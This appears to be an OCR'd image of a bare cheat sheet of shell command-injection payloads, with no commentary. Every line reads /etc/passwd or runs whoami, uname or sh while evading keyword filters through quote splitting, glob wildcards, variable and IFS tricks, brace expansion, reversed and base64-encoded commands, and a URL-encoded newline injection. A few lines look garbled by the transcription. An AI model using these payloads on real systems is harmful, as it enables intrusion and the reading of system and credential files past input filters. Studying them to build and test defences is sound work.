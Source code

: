 	cat /etc/passwd 
	cat /e"t"c/pa"s"swd 
	cat /'e'tc/pa's' swd 
	cat /etc/pa??wd 
	cat /etc/pa*wd 
	cat /et' 'c/passw' 'd 
	cat /et$()c/pa$()$swd
	cat /et${neko}c/pas${poi} swd 
	*echo "dwssap/cte/ tac" | rev 
	$(echo Y2FOIC9ldGMvcGFzc3dkCg== base64 -d) 
	w\ho\am\i 
	/\b\i\n/////s\h 
	who$@ami 
	xyz%0Acat%20/etc/passwd 
	IFS=,;`cat<<<uname,-a`
	/???/??t /???/p??s?? 
	test=/ehhh/hmtc/pahhh/hmsswd 
	cat ${test//hhh\/hm/} 
	cat ${test//hh??hm/}
	cat /???/?????d
	{cat,/etc/passwd}